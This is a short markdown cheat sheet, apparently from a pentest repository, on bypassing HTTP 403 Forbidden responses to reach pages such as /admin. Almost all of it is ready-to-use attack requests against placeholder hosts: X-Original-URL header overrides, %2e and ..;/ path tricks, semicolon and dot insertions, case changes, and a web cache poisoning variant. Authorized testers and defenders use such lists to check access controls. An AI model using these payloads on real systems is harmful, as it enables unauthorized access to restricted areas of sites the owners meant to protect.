 # Bypass 403 (Forbidden)
### Using `X-Original-URL` header
```bash
# Normal Request (403)
GET /admin HTTP/1.1
Host: target.com

# Try this to bypass (200)
GET /anything HTTP/1.1
Host: target.com
X-Original-URL: /admin
```

### Appending `%2e` after the first slash
```bash
# Normal Request (403)
http://target.com/admin

# Try this to bypass (200)
http://target.com/%2e/admin
```
### Try add dot `.` slash `/` and semicolon `;` in the URL
```bash
# Normal Request (403)
http://target.com/admin

# Try this to bypass (200)
http://target.com/secret/.
http://target.com//secret//
http://target.com/./secret/..
http://target.com/;/secret
http://target.com/.;/secret
http://target.com//;//secret
```
### Add `..;/` after the directory name
```bash
# Normal Request (403)
http://target.com/admin

# Try this to bypass (200)
http://target.com/admin..;/
```
### Try to uppercase the alphabet in the url
```bash
# Normal Request (403)
http://target.com/admin

# Try this to bypass (200)
http://target.com/aDmIN
```

## Via Web Cache Poisoning
```bash
GET /anything HTTP/1.1
Host: victim.com
X­-Original-­URL: /admin
```









